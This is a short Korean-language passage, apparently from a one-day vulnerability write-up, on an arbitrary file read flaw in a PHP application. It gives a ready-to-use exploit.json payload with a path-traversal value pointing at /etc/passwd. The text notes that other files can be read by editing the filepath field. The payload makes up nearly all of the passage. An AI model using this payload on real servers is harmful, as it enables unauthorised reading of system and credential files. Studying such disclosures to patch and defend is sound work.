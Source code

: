 ![imagea](assets/posts/one-day/2025-02-12/image-014.png)

### 2. 임의 파일 읽기 취약점

아래의 json 데이터를 PHP 애플리케이션의 Document Root Directory에 `exploit.json` 파일명으로 저장합니다. 해당 데이터는 `/etc/passwd` 경로를 읽어오기 위한 데이터로, 다른 파일을 읽으려면 `filepath` 의 경로를 수정하면 됩니다.

```json
{
    "ticket":"AAAAAAAAAAAAAAAA",
    "type":"normal",
    "filepath":"../../../../../etc/passwd",
    "handler":"dboption",
    "expire":9999999999,
    "wfu_ABSPATH":"/var/www/html/",
    "wfu_browser_downloadfile_notexist":"Not Exist",
    "wfu_browser_downloadfile_failed":"Failed"
}
```
